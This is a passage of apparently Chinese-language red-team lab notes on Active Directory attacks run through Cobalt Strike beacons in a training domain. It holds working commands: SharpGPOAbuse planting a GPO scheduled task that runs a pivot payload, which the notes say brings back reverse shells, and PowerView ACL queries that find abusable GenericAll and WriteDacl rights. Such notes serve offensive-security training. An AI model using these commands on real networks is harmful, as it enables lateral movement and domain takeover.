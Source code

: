 beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

上面命令执行完成以后，会收到很多rev shell(但是看视频演示还是要上靶机强制刷新GPO)

![alt GPOAbuse](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/sharpgpoabuse.png?width=1920)



# ACL

ACL(Access Control Lists,自由控制列表)

下面命令返回对jadams具有GenericAll、WriteProperty或WriteDacl的主体

```
beacon> powershell Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl

```


列举ACL对那些OU有GenericAll权限
```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=cyberbotic,DC=io" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

```



# Reset User Password

重置用户密码

```
beacon> getuid
[*] You are DEV\bfarmer
